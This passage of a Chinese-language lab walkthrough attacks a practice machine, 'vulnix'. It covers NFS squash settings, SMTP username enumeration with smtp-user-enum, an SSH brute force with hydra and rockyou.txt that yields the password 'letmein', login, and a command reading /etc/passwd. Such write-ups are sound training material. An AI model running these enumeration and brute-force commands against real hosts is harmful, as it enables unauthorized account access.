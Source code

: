 - no_root_squash：登入 NFS 主机使用分享目录的使用者，如果是 root 的话，那么对于这个分享的目录来说，他就具有 root 的权限。
- root_squash：在登入 NFS 主机使用分享目录的使用者如果是 root 时，那么这个使用者的权限将被压缩成为匿名使用者，通常他的 UID 与 GID 都会变成 nobody 那个系统账号的身份。

这样的话，我们只需要开一个和`vulnix`相同的`UID`与`GID`，既可以进行访问！

## 漏洞利用

### ssh爆破

有了用户名就可以尝试爆破了：

```shell
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/namelist.txt -t 192.168.244.183 | grep -o ':.*' | cut -c 2- > user.txt 
sed '1,2d;$d' user.txt > temp.txt && mv temp.txt user.txt;cat user.txt
awk '{$1=$1; print}' user.txt > temp.txt && mv temp.txt user.txt
awk '{print $1}' user.txt > temp.txt && mv temp.txt user.txt
echo "vulnix" >> user.txt
cat user.txt
# backup
# games
# irc
# mail
# news
# proxy
# root
# syslog
# user
# vulnix
```

```bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.244.183
# 这里过慢，我只筛选了user,root,vulnix三个用户了，其他的不知道有没有可以用的！
```

爆破出来一个密码：`letmein`

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335735.png" alt="image-20240214134435895" style="zoom:50%;" />

### 登录用户

登录一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335736.png" alt="image-20240214132958851" style="zoom:50%;" />

查看一下相关信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335737.png" alt="image-20240214133542403" style="zoom: 50%;" />

检查一下`vulnix`的`UID`和`RID`：

```shell
cat /etc/passwd
```
